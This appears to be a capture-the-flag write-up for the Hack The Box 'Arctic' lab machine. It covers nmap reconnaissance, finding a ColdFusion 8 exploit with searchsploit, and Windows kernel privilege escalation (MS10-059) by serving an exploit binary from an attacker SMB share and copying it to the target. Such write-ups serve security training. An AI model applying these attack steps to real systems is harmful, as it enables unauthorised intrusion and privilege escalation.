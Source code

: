 # Hack the Box - Arctic

```CSS
Machine IP: 10.10.10.11
OS: Windows

Vulnerabilities:
- Adobe Cloud Fusion 8
- Windows Kernel Exploit MS10-059
```

## Reconnaisance
```CSS
▶ nmap -Pn -sS -p- 10.10.10.11 -T4 --min-rate 1000 -oN surface.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 13:09 IST
Nmap scan report for 10.10.10.11
Host is up (0.097s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
```

```css
▶ nmap -sC -sV -p 135,8500,49154 10.10.10.11 -oN deep.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 13:11 IST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.10.11
Host is up (0.086s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.00 seconds
```
---

## Application Mapping

![image](https://user-images.githubusercontent.com/83878909/229273435-61068519-cbd8-4c2c-be4f-6dd3c1a87e15.png)
![image](https://user-images.githubusercontent.com/83878909/229273524-6f7ba081-63f5-4fe6-9b4e-d228ef07ec08.png)
![image](https://user-images.githubusercontent.com/83878909/229273721-64bd7f7c-3270-4b3c-99d7-2cb0791a8343.png)

---

## Search for Exploits
```CSS
▶ searchsploit ColdFusion
```
![image](https://user-images.githubusercontent.com/83878909/229282725-1fd751df-4992-44d4-9c8a-c5d2527867c3.png)

### Modify the Exploit Code
![image](https://user-images.githubusercontent.com/83878909/229283393-0791183b-a971-4d68-a64e-32e7e652d8f8.png)

## User Access
![image](https://user-images.githubusercontent.com/83878909/229284344-ca6b43e3-36da-4815-9b62-4432377668eb.png)

---

## Privilege Escalation
### System Information Gathering
![image](https://user-images.githubusercontent.com/83878909/229284588-f0e96832-3491-4d2b-a027-54795caa0a55.png)

  - The target machine's kernel is vulnerable to **MS10-059**.
  - Exploit [(Link)](https://github.com/egre55/windows-kernel-exploits)

### Exploit
  - Tranfer exploit code to target machine.
```CSS
▶ impacket-smbserver share $(pwd) -smb2support 
```
  - Execute the exploit.
```CSS
C:\ColdFusion8\runtime\bin>copy \\10.10.14.34\share\chimichurri.exe
```
![image](https://user-images.githubusercontent.com/83878909/229303301-4b8fef70-a000-42f7-9b72-2dc8c7af037a.png)

## Root
![image](https://user-images.githubusercontent.com/83878909/229306240-86174770-a64c-4935-a387-669ac07555c3.png)

---
